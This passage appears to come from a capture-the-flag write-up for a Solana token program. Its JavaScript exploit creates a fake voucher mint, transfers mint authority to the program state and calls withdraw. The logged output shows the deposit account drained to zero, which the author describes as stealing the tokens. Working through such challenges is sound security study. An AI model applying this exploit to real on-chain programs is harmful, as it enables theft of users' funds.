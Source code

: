 ```js
    const fake_depositor_account = await spl_token.createAssociatedTokenAccount(conn, player, mint, player.publicKey);
    await spl_token.mintToChecked(conn, player, mint, fake_depositor_account, player, amount, 0);
    console.log(`Minted ${amount} to a new voucher_depositor_account: ${fake_depositor_account}`);

    // transfer the ownership of the mint to state
    await spl_token.setAuthority(conn, player, mint, player, AuthorityType.MintTokens, accounts.state);
    console.log("Transfered the authority to the state");

    // getting the accociated token account of player of bitcoin mint
    let player_bitcoin_token_account = await conn.getParsedTokenAccountsByOwner(player.publicKey, {
            mint: accounts.bitcoinMint,
        }).then(resp => new web3.PublicKey(resp.value[0].pubkey.toString()));
    console.log("Player bitcoin token address: ",player_bitcoin_token_account);
    

    // creating a new transaction
    const txn = new web3.Transaction().add(
        await program.instruction.withdraw(amount, {
        accounts: {
            player: player.publicKey,
            depositor: player.publicKey,
            state: accounts.state,
            depositAccount: accounts.depositAccount,
            voucherMint: mint,
            depositorAccount: player_bitcoin_token_account,
            depositorVoucherAccount: fake_depositor_account,
            tokenProgram: spl_token.TOKEN_PROGRAM_ID
        }})
    );
    // signing and sending the transaction
    const sign = await web3.sendAndConfirmTransaction(conn, txn, [player]);
    console.log("Signature: "+ sign);
}
```
This should steal the tokens from the deposit account of the state.

```bash
Amount : 1000000
Created new Mint : 2T1ZhsdN8wxhJQwB7ytrKuoessF2oKHnFmRzqEAb2V4A
Minted 1000000 to a new voucher_depositor_account: AKV14tGAMz1GfwGFACokuZUkHhTPBCwFJa3sgUpgk6Ni
Transfered the authority to the state
Player bitcoin token address:  PublicKey {
  _bn: <BN: e22a4f62bd92c39a81da78a835c4d5560e022ca557468ce705e97cefdee25d81>
}
Signature: 5mtRKdd4qqezrQMqKBcEe9h4rHoS37JW3Rb2ASzLmBe29dwN7kcCpGgV2f5vcVbmi7vGpaidpEdK6coaugDU9icZ
Amount : 0
```


<br><br>
